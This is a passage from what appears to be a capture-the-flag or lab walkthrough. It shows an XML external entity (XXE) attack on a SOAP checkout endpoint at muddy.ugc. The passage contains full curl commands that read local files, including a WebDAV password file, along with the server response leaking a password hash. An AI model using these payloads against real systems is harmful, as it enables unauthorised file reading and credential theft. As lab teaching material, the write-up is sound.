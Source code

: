 ```
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
------------------------------------------------------------------------
```

I verified that the exploit works:

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Since we have LFI, we can locate the `passwd.dav` file to find the password required for `/webdav`. I found that it was within the `/var/www/html/webdav` file:

```
$ curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///var/www/html/webdav/passwd.dav">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:helloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns="urn:muddy" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <SOAP-ENV:Body SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <ns:checkoutResponse>
      <result>Serial number: administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0</result>
    </ns:checkoutResponse>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```
